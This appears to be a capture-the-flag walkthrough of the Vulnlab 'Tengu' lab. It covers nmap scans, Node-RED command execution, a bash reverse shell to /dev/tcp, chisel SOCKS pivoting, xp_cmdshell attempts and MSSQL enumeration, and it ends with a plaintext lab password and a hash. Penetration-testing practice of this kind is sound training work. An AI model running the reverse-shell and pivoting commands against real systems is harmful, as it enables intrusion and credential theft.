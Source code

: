 # Vulnlab - Tengu

## DC.tengu.vl

```bash
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Issuer: commonName=DC.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-14T15:26:33
| Not valid after:  2025-03-16T15:26:33
| MD5:   b350:11ed:41ce:ff32:a34f:0088:ce22:96f5
|_SHA-1: 711b:6409:e399:0771:d3d3:7eba:1938:5914:7c84:7528
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SQL.tengu.vl

```bash
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-09-15T15:30:31+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Issuer: commonName=SQL.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-14T15:26:45
| Not valid after:  2025-03-16T15:26:45
| MD5:   3cd6:9298:18df:b91e:5194:c958:0df4:528b
|_SHA-1: b304:c807:0de4:a171:0c1a:8b16:1f3e:bd29:2e21:99b5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

##

```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
1880/tcp open  vsat-control?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Both windows hosts had only RDP service enabled, on linux hosts, there was something hosted on port 1880 which on googling shows it runs Node-RED, which is a flow based development tool for visual programming used in IoT devices

<img src="https://i.imgur.com/DVKxUbk.png"/>

Node-RED is known for getting remote command execution (RCE), to achieve this, we'll need to create a flow by timestamp block following exec block

<img src="https://i.imgur.com/CuLDFKt.png"/>

Replacing the curl command with bash reverse shell

<img src="https://i.imgur.com/HCcZ8G6.png"/>

```bash
bash -i >& /dev/tcp/10.8.0.136/2222 0>&1
```

After having the shell, it can be stabilized with python3 to use it as a normal shell

<img src="https://i.imgur.com/ZhpmGCP.png"/>

From `nodered` directory, we can find some type of hashed password but not really sure who this belongs to and how this can be cracked

<img src="https://i.imgur.com/RgdICoH.png"/>

From sql node properties, we can see the connection string with the username `nodered_connector`

<img src="https://i.imgur.com/DI5KPTP.png"/>

So there's a script to decrypt the node-red credentials, which needs `flows_cred.json` and  `.config.runtime.json`
https://gist.github.com/Yeeb1/fe9adcd39306e3ced6bdfc7758a43519

<img src="https://i.imgur.com/wSSYj93.png"/>

In order to connect to MSSQL, we'll need to performing pivoting since that service isn't exposed we'll use chisel socks proxy

```bash
chisel server --reverse -p 3000
chisel client 10.8.0.136:3000 R:socks
```

<img src="https://i.imgur.com/nsUiv1Y.png"/>

With this, we'll be able to reach port 1433 on sql.tengu.vl

<img src="https://i.imgur.com/7XULYy4.png"/>

Trying to enable `xp_cmdshell` resulted in no luck as this user didn't had privileged in mssql

<img src="https://i.imgur.com/JoofgoC.png"/>

Enumerating the databases, there are two, which are not available by default, `Dev` and `Demo`

<img src="https://i.imgur.com/5fPlFgo.png"/>

Dev didn't had anything interesting while there was one set of credential from Demo

<img src="https://i.imgur.com/001siDc.png"/>

# References

- https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/
- https://gist.github.com/Yeeb1/fe9adcd39306e3ced6bdfc7758a43519

```
nodered_connector:DreamPuppyOverall25
t2_m.winters:af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147
```
